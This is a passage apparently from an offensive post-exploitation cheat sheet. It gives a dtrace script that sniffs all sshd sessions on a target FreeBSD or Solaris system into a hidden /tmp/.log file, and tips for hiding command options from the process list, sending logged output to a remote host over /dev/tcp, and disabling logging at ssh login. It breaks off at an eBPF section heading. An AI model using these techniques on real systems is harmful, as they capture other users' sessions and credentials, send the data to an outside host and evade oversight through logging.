 - Combined with zapper to hide command options from the process list.
- Requires `/usr/bin/script` from util-linux >= 2.37 (-I flag). We pull the static bin from [pkgforge](https://bin.pkgforge.dev). 
- Consider using /dev/tcp/3.13.3.7/1524 as an output file to log to a remote host.
- Log in with `ssh -o "SetEnv LC_PTY=1"` to disable logging.

<a id="dtrace"></a>
**10.ii Sniff all SHELL sessions with dtrace - FreeBSD**

Especially useful for Solaris/SunOS and FreeBSD (pfSense). It uses kernel probes to trace *all* sshd processes.

Copy this "D Script" to the target system to a file named `d`:
```c
#pragma D option quiet
inline string NAME = "sshd";
syscall::write:entry
/(arg0 >= 5) && (arg2 <= 16) && (execname == NAME)/
{ printf("%d: %s\n", pid, stringof(copyin(arg1, arg2))); }
```

Start a dtrace and log to /tmp/.log:
```sh
### Start kernel probe as background process.
(dtrace -sd >/tmp/.log &)
```

<a id="bpf"></a>
**10.iii Sniff all SHELL sessions with eBPF - Linux**

